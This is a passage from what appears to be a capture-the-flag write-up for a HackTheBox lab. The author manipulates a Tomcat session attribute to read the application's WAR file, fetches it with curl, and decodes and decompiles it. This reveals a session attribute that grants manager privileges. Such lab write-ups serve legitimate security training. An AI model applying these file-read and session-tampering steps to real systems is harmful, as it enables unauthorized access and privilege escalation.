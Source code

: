 I'll now set my session attribute to be `/usr/local/tomcat/webapps/hosting.war`.
![registrytwo](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/registrytwo/13.png)

Next we can `curl` the page containing the contents of `hosting.war` and save its output. I do this because the file is pretty large and the browser can do weird things with it. 
```
curl -i -s -k -X $'GET' \
    -H $'Host: www.webhosting.htb' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Upgrade-Insecure-Requests: 1' -H $'Sec-Fetch-Dest: document' -H $'Sec-Fetch-Mode: navigate' -H $'Sec-Fetch-Site: none' -H $'Sec-Fetch-User: ?1' -H $'Te: trailers' -H $'Connection: close' \
    -b $'JSESSIONID=2396B568B8FB6E7B2099CE6BC97BDDE3' \
    $'https://www.webhosting.htb/hosting/edit?tmpId=3B7x00a91V5dEVB8RVCDmwJwnpkMANmeJBQq6usYKSTpd0eesSbydsQoelgELYSRr0hvpL83BvhF_4SVIJAmRg==' -o hosting.tmp
```

After striping out the HTML we are left with a base64 encoded version of the war file. **You have to strip out the html**.
```
base64 -d hosting.tmp >> hosting.war

file hosting.war 
hosting.war: Java archive data (JAR)
```

Now we have the source of the web application and can move further and reverse engineer it. To decompile it I'll use `jd-gui`
```
jd-gui hosting.war
```

Inside the application I found a new session attribute called `s_IsLoggedInUserRoleManager` that we can add to our session. This will give us manager permissions.
![registrytwo](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/registrytwo/14.png)